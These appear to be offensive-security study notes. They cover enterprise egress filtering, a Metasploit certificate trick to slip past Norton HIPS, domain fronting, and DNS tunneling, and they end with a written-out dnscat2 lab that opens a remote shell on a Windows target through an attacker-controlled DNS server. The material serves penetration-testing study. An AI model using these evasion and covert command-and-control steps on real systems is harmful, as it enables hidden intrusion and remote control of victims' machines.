## Network Filter Theory
There are various defense solutions in an enterprise environment to filter traffic.(Consider a comprehensive Internet edge architecture installation.)
- 1.Egress traffic relies on name resolution and edge DNS server may perform domain filtering, which deny known malicious domains
  - Most DNS filters compare requested domains to a blocklist of well-known malicious domain names. If the domain name is on the blocklist, it is filtered. 
  [OpenDNS,](https://community.opendns.com/domaintagging/) perform this action. 
  - DNS servers can integrate domain reputation lookup solution like [IPVoid](https://www.ipvoid.com/dns-reputation/), [VirtusTotal](https://www.virustotal.com/gui/home/search), and
  query multiple DNS filtering providers and make a decision about requtability of the domain.
- 2.Interal firewall generally limit traffic based on IP address and port number. For example, if organizaitons doesn't allow egress SMB traffic, the C2 will be filterd out.
- 3.SSL inspection device, often perform SSL decryption to inspect SSL-encrypted traffic and encryptd the traffic when it leave this zone.
- 4.IF traffic is still allowed, it may pass through a traffic filter, such as proxy server or an IDS, where data maybe be copied to a full packet capture device.
- 5.Route to internet

## Case Study Bypassing Norton HIPS with Custom Certificates
generate a self-signed certificate, In order to use this certificate and key with Metasploit, we must create a .pem file by simply
concatenating the key and certificate with cat.
```
kali@kali:~$ openssl req -new -x509 -nodes -out cert.crt -keyout priv.key

kali@kali:~$ cat priv.key cert.crt > nasa.pem 
```
Change the CipherString in /etc/ssl/openssl.cnf
```
CipherString=DEFAULT
```
Configure Metasploit to use newly-created certificate
```
msf5 exploit(multi/handler) > set HandlerSSLCert /home/kali/self_cert/nasa.pem
```

## Domain Fronting
Domain fronting involves using different domain names in the SNI field of the TLS header and the Host field of the HTTP header. If both 
domains are served from the same CDN, then the CDN may route to the address specified in the HTTP header after unwrapping the TLS header. More to follow.

## DNS Tunneling
In order to establish communication between two hosts using DNS traffic, we need to control
both ends of the communication: the client that makes the requests, and the DNS server. We nned to register our DNS server(attack machine/redirector) as the
authoritative server for a given target domain.

From the client, we can encapsulate data into the name field, which contains the domain name.
However, since the top-level domain is fixed, we can only encapsulate data as subdomains. These
can be up to 63 characters long but the total length of a domain can’t exceed 253 characters.

From the server side, we have much more flexibility and can return data in a variety of fields
based on the record type that was requested. An “A” record can only contain IPv4 addresses,
which means we can only store four bytes of information, but “TXT” records allow up to 64k.

one challenge in C2 communications is that if we want to send any data from the server
to the client, we can’t initiate the transfer from the server. Therefore, the malicious client
applications are designed to continuously poll the server for updated data.

For example, Clinet will poll the server. 6172657468657265 could be encapsulate command for "is there more command to run?"
```
Query: Request TXT record for "6172657468657265.ourdomain.com"
```

Now, on the DNS server side, sending command back to client, "686f73746e616d65" could be a whomai command.

```
TXT: "686f73746e616d65"
```

## DNS Tunneling with dnscat2
[dnscat2](https://github.com/iagox86/dnscat2) is a DNS tunneling utility. It can tunnel A, TXT, and NS records. Let's consider the follwing network digram.


![image](https://user-images.githubusercontent.com/24555370/145134133-776aaf38-f8ea-49c7-9e4a-9020a5859446.png)

We will configure dnsmasq DNS server to forward requests to our kali. The domain name will bne tunnel.com.

configure /etc/dnsmasq.conf file on the Ubuntu machine, Note, the IP address are point to Kali machine
```
server=/tunnel.com/kaliIP
server=/somedomain.com/KaliIP
```
restart dns
```
dns@ubuntu:~$ sudo systemctl restart dnsmasq
```

On our kali machine, we have to start dnscat2-server for our example tunnel.com domain

```
kali@kali:~$ sudo apt install dnscat2

kali@kali:~$ dnscat2-server tunnel.com
```

Now on the windows target machine

```
C:\Users\mst\Desktop> dnscat2-v0.07-client-win32.exe tunnel.com
```

Now, we have established a DNS tunnel, on the kali side, interact with the seesion using the  ```session -i [number]```, we can run an interactive shell with the ```shell``` command
```
dnscat2> session -i 1
New window created: 1
history_size (session) => 1000

command (client) 1> shell
Sent request to execute a shell
command (client) 1> New window created: 2
Shell session created!
command (client) 1> session -i 2


C:\Users\mst\Desktop>
cmd.exe (client) 2> whoami
client\offsec
```

